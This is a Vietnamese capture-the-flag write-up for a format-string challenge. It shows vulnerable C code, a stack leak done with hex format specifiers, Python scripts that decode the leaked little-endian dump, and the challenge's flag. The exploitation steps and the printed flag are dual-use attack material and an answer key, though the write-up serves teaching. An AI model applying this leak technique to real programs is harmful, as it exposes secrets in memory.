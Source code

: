```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
cover: ../../../.gitbook/assets/image (1) (3).png
coverY: 0
---
```


# 🎰 ELF x86 - Format string bug basic 1

chall:

```c
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

Work flow:

* Đầu tiên ta xác định được buffer size 32
* Flag được đọc từ file .passwd được chuyển thành string và ghi vào stack
* Hàm trigger đáng ngờ ở đây chính là printf với argv\[1]
* Thật vậy, khi đọc tài liệu về hàm printf ta thấy điều thú vị sau:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Như vậy tham số đầu tiên luôn là kiểu dữ liệu như %d, %s tương ứng với giá trị theo sau đó
* Nhưng ở đây lại truyền vào hàm printf với các giá trị không kiểm duyệt, dẫn đến hiện trạng nếu ta nhập các kiểu dữ liệu hex %x sẽ khiến hàm trả về các giá trị trong stack (bao gồm địa chỉ các function và flag)

<figure><img src="../../../.gitbook/assets/image (2) (5).png" alt=""><figcaption></figcaption></figure>

*   Để dễ quan sát hơn ta dùng %0x.

    * 0 là padding khi không đủ số lượng
    * 8 là số lượng giá trị hiển thị
    * x là hiển thị giá trị hex
    * Kí tự . để phân cách mỗi 8 kí tự cho dễ quan sát



    <figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>
* Như vậy ý tưởng ở đây, ta chỉ việc leak hết các dữ liệu có thể đọc trong stack và tìm cụm có nghĩa

```
from pwn import *
hex_val = "00000020.0804b160.0804853d.00000009.bffffcc9.b7e1b679.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.f3004700.bffffb00.00000000.00000000.b7e03fa1.b7fc3000.b7fc3000.00000000.b7e03fa1.00000002.bffffb94.bffffba0.bffffb24.00000001"

list_hex = list(hex_val.split("."))

for x in list_hex:
        print(bytes.fromhex(x).decode(errors="ignore"),end="")
```

<figure><img src="../../../.gitbook/assets/image (5) (5).png" alt=""><figcaption></figcaption></figure>

* Tuy nhiên do đang ở dạng little-endian, ta có thể viết đoạn script cơ bản sau để chuyển lại big-endian

```python
from pwn import *
hex_val = "00000020.0804b160.0804853d.00000009.bffffcc9.b7e1b679.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.f3004700.bffffb00.00000000.00000000.b7e03fa1.b7fc3000.b7fc3000.00000000.b7e03fa1.00000002.bffffb94.bffffba0.bffffb24.00000001"

list_hex = list(hex_val.split("."))
s = []

for y in list_hex:
    little_endian = y[6:] + y[4:-2] + y[2:-4] + y[0:-6]
    s.append(little_endian)
#print(s)
for x in s:
        print(bytes.fromhex(x).decode(errors="ignore"),end="")

```

<figure><img src="../../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

> flag: **Dpa9d6)(Epamd**



